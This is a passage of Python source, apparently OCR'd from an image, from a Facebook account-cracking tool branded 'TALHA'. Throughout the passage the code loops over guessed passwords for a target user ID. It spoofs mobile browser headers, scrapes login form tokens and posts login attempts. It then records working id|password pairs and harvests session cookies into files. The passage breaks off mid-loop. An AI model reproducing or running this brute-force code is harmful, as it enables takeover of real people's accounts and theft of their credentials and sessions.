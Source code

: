 	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	for pw in pwv:

		try:

			pw = pw.lower()

			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})

			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text

			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}

			ses.headers.update({"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})

			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)

			if "checkpoint" in po.cookies.get_dict().keys():

				cp +=1

				print( f'\r\x1b[1;91m [ TALHA-CP ] {idf} | {pw}')

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				coki=po.cookies.get_dict()

				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r\x1b[1;92m [ TALHA-OK ] {idf} | {pw}')

				wrt =('%s - %s' % (idf,pw))

				ok.append(wrt)
